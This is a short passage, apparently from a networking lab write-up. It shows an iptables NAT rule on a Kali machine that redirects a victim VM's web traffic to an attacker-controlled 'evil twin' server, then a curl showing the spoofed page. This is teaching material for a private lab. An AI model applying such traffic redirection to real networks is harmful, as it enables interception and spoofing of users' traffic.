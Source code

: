 #### Redirect to Evil website
Alice still sees the genuine website from the webserver but is being redirected through the Kali machine.
```
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -d 192.168.56.110 -j DNAT --to-destination 192.168.56.103
```
Now, `curl` Web Server from Alice.
```
vagrant@alice:~$ curl 192.168.56.110
<html>
    <body>
        <h1>Hello, this is your evil twin</h1>
        <img src="https://i.imgur.com/ZpUjvbl.jpg"/>
    </body>
</html>
```
Scary! Isn't it?





